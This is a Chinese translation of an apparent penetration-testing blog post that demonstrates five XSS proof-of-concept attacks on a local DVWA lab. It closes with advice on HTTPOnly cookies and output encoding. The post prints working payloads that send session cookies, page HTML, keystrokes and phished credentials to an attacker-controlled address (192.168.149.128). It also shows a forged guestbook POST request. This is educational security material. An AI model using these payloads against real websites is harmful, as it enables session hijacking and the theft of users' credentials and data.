

# Pentest-Tools.com XSS 袭击的 5 个实际场景

> 原文：<https://pentest-tools.com/blog/xss-attacks-practical-scenarios>

让我们探索几个实际的攻击场景，它们可以作为 POC 来实现，以证明跨站点脚本(XSS)漏洞的真实风险。

作为渗透测试人员，您希望您的客户了解您发现的漏洞的风险。做到这一点的最佳方法是创建一个高影响力的概念验证(POC ),在其中展示攻击者如何利用漏洞并影响业务。

在本文中，我们将看到如何创建 [**XSS 攻击**](https://pentest-tools.com/website-vulnerability-scanning/xss-scanner-online) **PoCs** 以便:

1.  [**劫持用户会话**](#xss-attack-1-hijacking-the-users-session)

2.  [**执行未经授权的活动**](#xss-attack-2-perform-unauthorized-activities)

3.  [**执行网络钓鱼攻击**](#xss-attack-3-phishing-to-steal-user-credentials)

4.  [**捕捉击键**](#xss-attack-4-capture-the-keystrokes-by-injecting-a-keylogger)

5.  [**窃取敏感信息**](#xss-attack-5-stealing-sensitive-information)

## 背景

**跨站脚本(XSS)** 是 web 应用程序中的一个漏洞，也是一种客户端攻击的名称，在这种攻击中，攻击者向合法网页中注入并运行恶意脚本。浏览器能够显示 HTML 和执行 JavaScript。如果应用程序不转义输入/输出中的特殊字符，并将用户输入原样反射回浏览器，对手就可能成功发起跨站点脚本(XSS)攻击。

你可以在 [**OWASP 的跨站脚本**](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) 页面找到更多关于这个漏洞的信息。

出于演示的目的，我们将使用众所周知的 [**DVWA 应用程序**](http://www.dvwa.co.uk/) ，它是我们在本地安装的。

DVWA 页面`http://localhost:81/DVWA/vulnerabilities/xss_r/`受到在**名称**参数中反射的 XSS 的影响。当我们注入 JavaScript 代码<脚本> alert(123) < /script >时，可以在下图中看到这一点，并在响应页面中反映和执行。


## **XSS 攻击 1:劫持用户会话**

大多数 web 应用程序维护**用户会话**，以便在多个 [HTTP 请求](https://pentest-tools.com/exploit-helpers/http-request-logger)中识别用户。会话由会话 cookies 标识。

例如，在成功登录到一个应用程序后，服务器将通过`Set-Cookie`头向您发送一个**会话 cookie** 。现在，如果您想要访问应用程序中的任何页面或提交表单，cookie(现在存储在浏览器中)也将包含在发送到服务器的所有请求中。这样，服务器就知道你是谁了。

因此，会话 cookies 是敏感信息，如果泄露，攻击者可能会假冒合法用户并获得对其现有 web 会话的访问权限。这种攻击被称为**会话劫持**。

浏览器中运行的 JavaScript 代码可以通过调用`document.cookie`来访问会话 cookies(当它们缺少标志 *HTTPOnly* 时)。因此，如果我们将以下有效负载注入到我们的 *name* 参数中，易受攻击的页面将在警告框中显示当前的 cookie 值:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>
```


现在，为了**窃取 cookie**，我们必须提供一个有效载荷，将 cookie 值发送到攻击者控制的网站。

下面的有效负载在当前页面的 DOM 中创建新的 *Image* 对象，并将 *src* 属性设置为攻击者的网站。因此，浏览器将向这个外部网站(192.168.149.128)发出 HTTP 请求，URL 将包含会话 cookie。

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
```

这里是[攻击 URL](https://pentest-tools.com/website-vulnerability-scanning/discover-hidden-directories-and-files) ，它会将 cookies 发送到我们的服务器:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script>new  Image().src="http://192.168.149.128/bogus.php?output="+document.cookie;</script>
```

当浏览器接收到这个请求时，它执行 JavaScript 有效负载，这个有效负载向 192.168.149.128 发出一个新请求，并在 URL 中包含 cookie 值，如下所示。


如果我们在攻击者控制的服务器(192.168.149.128)上监听一个传入的连接，我们可以看到一个 URL 中附加了 cookie 值(*安全*和*PHP sesid*)的传入请求。同样的信息可以在服务器上的 *access.log* 文件中找到。


### **使用偷来的 cookie**

有了上面的 cookie 信息，如果我们访问应用程序的任何内部页面并在请求中附加 cookie 值，我们就可以代表受害者在它自己的会话中访问该页面(不知道用户名和密码)。基本上，我们已经劫持了用户的会话。


**HTTPOnly** cookie 属性可以通过阻止通过 JavaScript 访问 cookie 值来帮助缓解这种情况。可以在初始化 cookie 值时设置(通过`Set-Cookie`头)。

## **XSS 攻击 2:执行未经授权的活动**

如果设置了 **HTTPOnly** cookie 属性，我们就无法通过 JavaScript 窃取 cookie。然而，使用 XSS 攻击，我们仍然可以代表用户在应用程序内部执行未经授权的操作。

例如，在这个攻击场景中，我们将在未经受害用户同意的情况下，代表受害用户在留言簿中张贴新消息。为此，我们需要用 JavaScript 为留言簿页面伪造一个带有适当参数的 HTTP POST 请求。

下面的有效负载将通过创建一个 **XMLHTTPRequest** 对象并设置必要的头和数据来完成这项工作:

```
<script>

	var xhr = new XMLHttpRequest();

	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);

	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');

	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');

</script>
```

这是请求在浏览器中的样子，也是在 Burp 中截取的。


执行中的脚本将代表用户生成一个添加评论的新请求。


## **XSS 攻击 3:网络钓鱼窃取用户凭证**

XSS 还可用于在易受攻击的页面中插入表单，并使用该表单收集用户凭据。这种类型的攻击称为 [**钓鱼**](https://pentest-tools.com/blog/how-to-simulate-phishing-attacks-with-http-request-logger) 。

下面的有效负载将注入一个带有消息 ***的表单，请登录以继续*** ，以及**用户名**和**密码**输入字段。

当访问下面的链接时，受害者可以在注入的表单中输入其凭据。请注意，我们可以根据需要修改有效载荷，使其看起来像合法的形式。

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<h3>Please login to proceed</h3> <form action=http://192.168.149.128>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```


一旦用户输入他们的凭证并点击 ***登录*** 按钮，请求就被发送到攻击者控制的服务器。该请求可以在下面的截图中看到:


用户输入的凭据(pentest: pentest)可以在接收服务器上看到。


## **XSS 攻击 4:通过注入键盘记录器捕获击键**

在这个攻击场景中，我们将在易受攻击的网页中注入一个 JavaScript 键盘记录器，并捕获用户在当前页面中的所有击键。

首先，我们将创建一个单独的 JavaScript 文件，并将其托管在攻击者控制的服务器上。我们需要这个文件，因为有效载荷太大，无法插入到 URL 中，并且我们避免编码和转义错误。JavaScript 文件包含以下代码:


每次按键时，都会生成一个新的 XMLHttp 请求，并发送给攻击者控制的服务器上的**keylog.php**页面。**keylog.php**中的代码将按键的值写入一个名为 **data.txt** 的文件中。


现在，我们需要使用来自服务器的有效负载来调用易受攻击的页面:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/xss.js">
```

一旦脚本加载到页面上，每按一次键就会触发一个新的请求。


参数 **key** 的值正在被写入 **data.txt** 文件，如下面的截图所示。


## **XSS 攻击 5:窃取敏感信息**

XSS 攻击可能执行的另一个恶意活动是从用户当前会话中窃取敏感信息。想象一下，一个网上银行应用程序[容易受到 XSS](https://pentest-tools.com/website-vulnerability-scanning/xss-scanner-online) 的攻击，攻击者可以读取当前余额、交易信息、个人数据等。

对于这个场景，我们需要在攻击者控制的服务器上创建一个 JavaScript 文件。该文件包含对运行脚本的页面进行截图的逻辑:


然后我们需要在攻击者的服务器上创建一个 PHP 文件，将 **png** 参数的内容保存到**test.png**文件中。


现在，我们通过诱骗用户访问以下 URL，将 JavaScript 代码注入易受攻击的页面:

```
http://localhost:81/DVWA/vulnerabilities/xss_r/?name=<script src="http://192.168.149.128/screenshot.js">
```

一旦加载了 JavaScript 文件，脚本将 base64 格式的数据发送到**saveshot.php**文件，后者将数据写入**test.png**文件。打开**test.png**文件，我们可以看到漏洞页面的截屏。


### **另一种方式**

窃取页面内容的另一种方法是通过使用 **getElementById** 获取 HTML 源代码。下面是一个有效载荷，它获取 *guestbook_comments* 元素的 *innerHTML* ，并将其发送给攻击者。

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.getElementById('guestbook_comments').innerHTML;</script>
```


我们还可以通过使用以下有效负载来获取页面的整个页面源:

```
<script>new Image().src="http://192.168.149.128/bogus.php?output="+document.body.innerHTML</script>
```


在 Burp 解码器中解码接收到的数据为我们提供了易受攻击页面的明文页面源。在这里，我们可以看到留言簿的评论。



#### **结论**

根据易受攻击的应用程序所处理的功能和数据，XSS 漏洞可能会给企业带来重大风险。攻击者可以窃取机密信息，执行未经授权的活动，并接管受害用户的整个 web 会话。

针对这种类型攻击的最佳保护是输出清理，这意味着从客户端接收的任何数据都应该在返回到响应页面之前进行清理。清理是通过将特殊的 HTML 字符转换成它们的 HTML 实体等价物来完成的，例如:

```
< ---> &lt;

> ---> &gt;

" ---> &quot;

' ---> &apos;
```

建议使用每种编程语言的内置函数来进行清理。例如，在 PHP 中你应该使用 [htmlentities](http://php.net/manual/ro/function.htmlentities.php) 。

关于防御 XSS 病毒的更多信息可以在 OWASP 的 XSS 预防备忘单中找到。